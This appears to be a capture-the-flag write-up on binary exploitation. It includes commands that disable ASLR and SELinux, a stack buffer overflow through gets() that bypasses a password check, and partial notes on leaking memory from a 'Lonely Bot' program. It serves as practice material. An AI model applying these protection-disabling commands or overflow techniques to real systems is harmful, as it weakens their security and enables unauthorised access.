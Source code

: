 # Exploitation
Anytime you run across these types of challenges
* Disable Address Space Layout Randomization (ASLR)
* Set ulimit to `unlimited` for core file generation
* Disable SELinux
   ```sh
    sysctl kernel.randomize_va_space=0
    ulimit -S -c unlimited > /dev/null 2>&1
    setenforce 0
   ```

### 75pts: [Stack Overflow]
Authenticate without the password. Cause the program to print 'Success!' without crashing it and without the password. Note the value for 'authenticated' as well.

1. Copy the code into a  file: `exploit-75pts.c`
2. The hint tells us it also wants the value of `authenticated`
3. Edit the program and add a `printf()` statement:
   ```sh
    ...
     if (authenticated) {
         printf("Success!\n");
         printf("%d\n",authenticated);
         return 0;
      }
    ...
   ```
4. Code Review: `strncmp()` - `compares the only first (at most) n bytes of s1 and s2`
5. Code Review: `gets()` - ` gets() will continue to store characters past the end of the buffer`
6. Compile: `gcc -Wall exploit-75pts.c -o exploit-75pts` (note the compiler warning)
6. Running the program and entering anything greater than 12 characters as the password, should pass the `strncmp()` check
   ```sh
   ./exploit-75pts
   Enter the password: AAAAAAAAAAAAA
   Success!
   65
   ````

### 175pts: [Lonely Bot]
Lonely Bot just wants to talk. (program output in web console).
* I haven't solved this one yet. The following are just some notes.

1. Crash the program (generate core file): `./lonely_bot < /dev/urandom`
2. Base64 input:
   ```sh
   echo -n 'E' | base64
   RQ==

   base64> RQ==
   Now you're speaking my language!!
   Here's everything I know about that:

   No, I don't think that's right.
   Please, tell me more.
   base64> RQ==0x000000000000000000000000000000000000000000000111
   Now you're speaking my language!!
   Here's everything I know about that:

   The answer is 42.
   Please, tell me more.
   base64> Here's everything I know about that:
   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
   00 00 00 00 00 18 fe 14 32 67 e8 76 90 21 40 00
   00 00 00 00 39 1a 40 00 00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00 01 00 00 00 48 44 b1 26
   fc 7f 00 00 fe 0b 40 00 00 00 00 00 00 00 00 00
   00 00 00 00 06
   Wow! That's very interesting.
   Please, tell me more.
   base64>
   ```
* Find the correct memory address for the flag?
* Notes/Refs: https://bitvijays.github.io/LFC-BinaryExploitation.html

